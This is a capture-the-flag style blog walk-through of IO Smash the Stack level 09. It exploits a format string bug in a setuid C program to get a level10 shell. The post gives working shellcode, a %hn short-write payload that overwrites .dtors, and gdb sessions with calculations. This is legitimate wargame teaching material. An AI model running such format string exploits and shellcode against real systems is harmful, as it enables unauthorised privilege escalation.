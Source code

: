 +++
title = "IO Smash the stack level 09"
date = "2016-02-13T23:01:00-02:00"
publishdate = "2016-02-13"
categories =["Security"]
tags = ["Wargames", "C"]
slug = "io-smashthestack-level-09"
project_url = "https://greyhat.dk/io-smashthestack-level-09"
type = "post"
description = "Walk-through"
+++

## Level09

```sh
level9@io:/levels$ ls -latr level09*
-r-------- 1 level9  level9  182 Jan  9  2010 level09.c
-r-sr-x--- 1 level10 level9 6294 Jan  9  2010 level09
```

level9@io:/levels$ cat level09.c
```c
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv) {
	int  pad = 0xbabe;
	char buf[1024];
	strncpy(buf, argv[1], sizeof(buf) - 1);

	printf(buf);

	return 0;
}
```

A nice string format bug. Alright this should be a walk in the park using short writes when overwriting the .dtors. Lets go

```sh
ilevel9@io:/levels$ export EGG=$(python -c 'print "\x31\xc0\x99\xb0\x0b\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x89\xe2\x53\x89\xe1\xcd\x80"')
level9@io:/levels$ /tmp/desdic1/getenv EGG /levels/level09
EGG will be at 0xbffffeca
level9@io:/levels$ gdb -q /levels/level09
Reading symbols from /levels/level09...done.
(gdb) quit
level9@io:/levels$ nm ./level09|grep __DTOR
080494d4 d __DTOR_END__
080494d0 d __DTOR_LIST__
level9@io:/levels$ gdb -q /levels/level09
Reading symbols from /levels/level09...done.
(gdb) p 0xbfff - 8
$1 = 49143
(gdb) p 0xfeca - 0xbfff
$2 = 16075
(gdb) r $(printf "\xd6\x94\x04\x08\xd4\x94\x04\x08")%49143x%4\$hn%16075x%5\$hn
Starting program: /levels/level09 $(printf "\xd6\x94\x04\x08\xd4\x94\x04\x08")%49143x%4\$hn%16075x%5\$hn
...
bffffe5b
...
Program received signal SIGSEGV, Segmentation fault.
0xbffffedc in ?? ()
```

Oki we did not get a shell .. Lets try with the new info we got. We know that it crashed because it pointed to 0xbffffedc which is 18 bytes past our EGG

```sh
(gdb) i reg
eax            0xffffffda	-38
ecx            0xbffffb84	-1073742972
edx            0xbffffb88	-1073742968
ebx            0x80495a8	134518184
esp            0xbffffb80	0xbffffb80
ebp            0xbffffb99	0xbffffb99
esi            0x0	0
edi            0xb7fff908	-1207961336
eip            0xbffffedc	0xbffffedc
eflags         0x10292	[ AF SF IF RF ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
(gdb) p 0xfedc - 0xfeca
$3 = 18
(gdb) !echo "16075 - 18"|bc
16057
(gdb) r $(printf "\xd6\x94\x04\x08\xd4\x94\x04\x08")%49143x%4\$hn%16057x%5\$hn
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /levels/level09 $(printf "\xd6\x94\x04\x08\xd4\x94\x04\x08")%49143x%4\$hn%16057x%5\$hn
...
bffffe5b
...
                                                                            process 2883 is executing new program: /bin/bash
sh-4.2$
```

And we got a shell but do to gdb we are still level9. Lets try the original without gdb

```sh
level9@io:/levels$ /levels/level09 $(printf "\xd6\x94\x04\x08\xd4\x94\x04\x08")%49143x%4\$hn%16075x%5\$hn
...
bffffe59
...
sh-4.2$ whoami
level10
```

Oki so what happend. Our EGG is located at 0xbffffeca. When using short writes we have to split our address into words (And decimal)

```sh
echo "ibase=16; BFFF"|bc
49151
echo "ibase=16; FECA"|bc
65226
echo "65226 - 49151"|bc
16075
```

First we convert 0xbfff into decimal (49151) and then 0xfeca (65226) and find the difference hence finding 16075. But before we can use 49151 we need to take account that we added 8 bytes to the stack (The 2 addresses for .dtor) hence getting 49143. So we write 0xbfff to 080494d6 and 0xfeca to 080494d4 pointing our destructor to our EGG.
